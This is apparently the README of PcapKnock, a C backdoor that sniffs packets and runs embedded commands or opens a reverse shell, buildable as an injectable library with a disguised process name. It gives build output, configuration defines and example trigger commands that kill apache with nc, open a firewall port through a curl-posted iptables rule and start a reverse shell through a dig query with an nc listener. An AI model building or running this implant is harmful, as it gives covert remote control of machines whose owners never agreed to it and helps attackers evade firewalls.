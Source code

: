 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable library.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build:
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
# Port doesn't matter as long as a PSH is made
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```
Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.  If `DEVICE` is the empty
string, all interfaces will be used.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `""`       | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
`DOUBLEFORK`  | _unset_    | If defined, disassociates from the terminal when running as a program
| | |It is unlikely the below will need to be changed |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT`      | _unset_    | If defined, outputs error messages

Only the first four will likely need to be changed in most cases.
